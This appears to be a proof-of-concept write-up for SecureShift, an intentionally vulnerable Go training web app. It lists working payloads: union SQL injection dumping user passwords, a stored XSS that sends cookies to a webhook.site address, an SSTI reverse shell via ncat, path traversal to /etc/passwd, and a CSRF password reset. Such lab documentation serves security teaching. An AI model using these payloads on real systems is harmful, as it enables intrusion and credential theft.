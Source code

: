 # SecureShift PoC Report

This project is the intentionally vulnerable web application **“SecureShift”** prepared for educational purposes. Its goal is to provide a hands-on environment to experience common web security vulnerabilities (OWASP Top 10 and similar) as part of security testing practice.

The application is implemented using the **Go language** and an **SQLite database**. It can operate in two different modes: “Secure” and “Insecure”.

---

## Contents

- SQL Injection (Union-based)
- Stored & DOM XSS
- CSRF
- Insecure Deserialization
- SSRF + JWT Bypass + OS Command Injection
- SSTI
- XXE
- IDOR, Path Traversal & Information Disclosure
- File Upload Vulnerabilities

---

# SQL Injection

By repeatedly trying `'` characters, an error-based behavior was observed and the database was identified as **SQLite**.

![1.png](https://raw.githubusercontent.com/ozcanpng/SecureShift/refs/heads/main/SecureShift-PoC-EN/photos/1.png)

```sql
'
```

![2.png](https://raw.githubusercontent.com/ozcanpng/SecureShift/refs/heads/main/SecureShift-PoC-EN/photos/2.png)

```sql
' UNION SELECT 1, name, 3, 4, 5 FROM sqlite_master--
```

![3.png](https://raw.githubusercontent.com/ozcanpng/SecureShift/refs/heads/main/SecureShift-PoC-EN/photos/3.png)

```sql
' UNION SELECT 1, name, 3, 4, 5 FROM sqlite_master WHERE type='table'--
```

![4.png](https://raw.githubusercontent.com/ozcanpng/SecureShift/refs/heads/main/SecureShift-PoC-EN/photos/4.png)

```sql
' UNION SELECT 1, sql, 3, 4, 5 FROM sqlite_master WHERE name='users'--
```

![5.png](https://raw.githubusercontent.com/ozcanpng/SecureShift/refs/heads/main/SecureShift-PoC-EN/photos/5.png)

```sql
' UNION SELECT 1, name||': '||type, 3, 4, 5 FROM pragma_table_info('users')--
```

![6.png](https://raw.githubusercontent.com/ozcanpng/SecureShift/refs/heads/main/SecureShift-PoC-EN/photos/6.png)

```sql
' UNION SELECT 1, username, password, email, 5 FROM users--
```

---

# Stored & DOM XSS

## Stored XSS

A payload submitted to the comments section was persisted by the application and rendered to all users.

PoC payload (cookie exfiltration via webhook):

```html
<script>new Image().src="https://webhook.site/80c6d65e-4b78-4678-9217-7f3e1efca2ee?c="+document.cookie;</script>
```

![7.png](https://raw.githubusercontent.com/ozcanpng/SecureShift/refs/heads/main/SecureShift-PoC-EN/photos/7.png)  
![8.png](https://raw.githubusercontent.com/ozcanpng/SecureShift/refs/heads/main/SecureShift-PoC-EN/photos/8.png)

## DOM XSS

A payload was executed in URL fragments or other DOM-interactive areas:

```
http://localhost:3000/product-detail.html?id=3#<svg/onload=alert('DOMXSS')>
```

![9.png](https://raw.githubusercontent.com/ozcanpng/SecureShift/refs/heads/main/SecureShift-PoC-EN/photos/9.png)  
![10.png](https://raw.githubusercontent.com/ozcanpng/SecureShift/refs/heads/main/SecureShift-PoC-EN/photos/10.png)

---

# CSRF

The `/api/password-reset` endpoint was left open to operate via GET in insecure mode; this enabled CSRF PoC attempts.

PoC example (GET):

```
http://localhost:3000/api/password-reset?password=hackedByPng
```

The response and its effect after the request were visualized.

![11.png](https://raw.githubusercontent.com/ozcanpng/SecureShift/refs/heads/main/SecureShift-PoC-EN/photos/11.png)  
![12.png](https://raw.githubusercontent.com/ozcanpng/SecureShift/refs/heads/main/SecureShift-PoC-EN/photos/12.png)  
![13.png](https://raw.githubusercontent.com/ozcanpng/SecureShift/refs/heads/main/SecureShift-PoC-EN/photos/13.png)  
![14.png](https://raw.githubusercontent.com/ozcanpng/SecureShift/refs/heads/main/SecureShift-PoC-EN/photos/14.png)  
![15.png](https://raw.githubusercontent.com/ozcanpng/SecureShift/refs/heads/main/SecureShift-PoC-EN/photos/15.png)

Note: This PoC can be automated via a page such as `evil.html`.

---

# Insecure Deserialization

During a profile update request (e.g., JSON/form data), the `role` field was tampered with. The manipulated deserialized data was applied on the backend, resulting in a persistent privilege escalation (role: admin).

![16.png](https://raw.githubusercontent.com/ozcanpng/SecureShift/refs/heads/main/SecureShift-PoC-EN/photos/16.png)  
![17.png](https://raw.githubusercontent.com/ozcanpng/SecureShift/refs/heads/main/SecureShift-PoC-EN/photos/17.png)  
![18.png](https://raw.githubusercontent.com/ozcanpng/SecureShift/refs/heads/main/SecureShift-PoC-EN/photos/18.png)  
![19.png](https://raw.githubusercontent.com/ozcanpng/SecureShift/refs/heads/main/SecureShift-PoC-EN/photos/19.png)  
![20.png](https://raw.githubusercontent.com/ozcanpng/SecureShift/refs/heads/main/SecureShift-PoC-EN/photos/20.png)

---

# SSRF + JWT Bypass + OS Command Injection

- The `AvatarFromURL` / URL-based upload point was identified as usable for SSRF.
- JWT verification was bypassed using an `alg: "none"` vulnerability, which allowed skipping signature verification.
- While performing SSRF calls to `/admin/ping`, OS Command Injection vectors were leveraged to execute commands from the admin panel.

![21.png](https://raw.githubusercontent.com/ozcanpng/SecureShift/refs/heads/main/SecureShift-PoC-EN/photos/21.png)  
![22.png](https://raw.githubusercontent.com/ozcanpng/SecureShift/refs/heads/main/SecureShift-PoC-EN/photos/22.png)  
![23.png](https://raw.githubusercontent.com/ozcanpng/SecureShift/refs/heads/main/SecureShift-PoC-EN/photos/23.png)  
![24.png](https://raw.githubusercontent.com/ozcanpng/SecureShift/refs/heads/main/SecureShift-PoC-EN/photos/24.png)  
![25.png](https://raw.githubusercontent.com/ozcanpng/SecureShift/refs/heads/main/SecureShift-PoC-EN/photos/25.png)  
![26.png](https://raw.githubusercontent.com/ozcanpng/SecureShift/refs/heads/main/SecureShift-PoC-EN/photos/26.png)  
![27.png](https://raw.githubusercontent.com/ozcanpng/SecureShift/refs/heads/main/SecureShift-PoC-EN/photos/27.png)  
![28.png](https://raw.githubusercontent.com/ozcanpng/SecureShift/refs/heads/main/SecureShift-PoC-EN/photos/28.png)

This chained PoC begins with JWT bypass, accesses internal resources via SSRF, and then achieves a shell through OS Command Injection.

---

# SSTI

By providing input directly to the template engine, server-side code execution was achieved. Example payloads:

```js
{{Now}}
{{Env "HOME"}}
{{Run "ncat 172.20.10.3 5555 -e zsh"}}
```

![29.png](https://raw.githubusercontent.com/ozcanpng/SecureShift/refs/heads/main/SecureShift-PoC-EN/photos/29.png)  
![30.png](https://raw.githubusercontent.com/ozcanpng/SecureShift/refs/heads/main/SecureShift-PoC-EN/photos/30.png)  
![31.png](https://raw.githubusercontent.com/ozcanpng/SecureShift/refs/heads/main/SecureShift-PoC-EN/photos/31.png)  
![32.png](https://raw.githubusercontent.com/ozcanpng/SecureShift/refs/heads/main/SecureShift-PoC-EN/photos/32.png)

---

# XXE

The XML processing point allowed external entity inclusion, and with a sample PoC the server filesystem was read.

![33.png](https://raw.githubusercontent.com/ozcanpng/SecureShift/refs/heads/main/SecureShift-PoC-EN/photos/33.png)  
![34.png](https://raw.githubusercontent.com/ozcanpng/SecureShift/refs/heads/main/SecureShift-PoC-EN/photos/34.png)  
![35.png](https://raw.githubusercontent.com/ozcanpng/SecureShift/refs/heads/main/SecureShift-PoC-EN/photos/35.png)

---

# IDOR, Path Traversal & Information Disclosure

- Invoices opened from `invoices.html` are fetched via `http://localhost:3000/downloadFile?invoiceID=`.
- In insecure mode, the `invoiceID` parameter was not validated as a numeric type; this allowed unauthorized access to other users' invoices (IDOR).

Examples:

- Elliot's invoice: `invoiceID=2`.  
    ![36.png](https://raw.githubusercontent.com/ozcanpng/SecureShift/refs/heads/main/SecureShift-PoC-EN/photos/36.png)

- Tyrell Wellick's invoice was accessed with `invoiceID=1`.  
    ![37.png](https://raw.githubusercontent.com/ozcanpng/SecureShift/refs/heads/main/SecureShift-PoC-EN/photos/37.png)

- Accessing system files via Path Traversal:

```
http://localhost:3000/downloadFile?invoiceID=../../../../../../../../../etc/passwd
```

![38.png](https://raw.githubusercontent.com/ozcanpng/SecureShift/refs/heads/main/SecureShift-PoC-EN/photos/38.png)

- This permitted reading sensitive system information and led to information disclosure.

---

# File Upload Vulnerabilities

- Profile picture uploads are accepted via `profile.html`.
- **Secure mode**: only `.jpg`, `.jpeg`, and `.png` extensions and MIME type checks are enforced.
- **Insecure mode**: no validation is performed; all extensions are accepted — this allows uploading malicious files and/or RCE (e.g., a php file).

![39.png](https://raw.githubusercontent.com/ozcanpng/SecureShift/refs/heads/main/SecureShift-PoC-EN/photos/39.png)  
![40.png](https://raw.githubusercontent.com/ozcanpng/SecureShift/refs/heads/main/SecureShift-PoC-EN/photos/40.png)
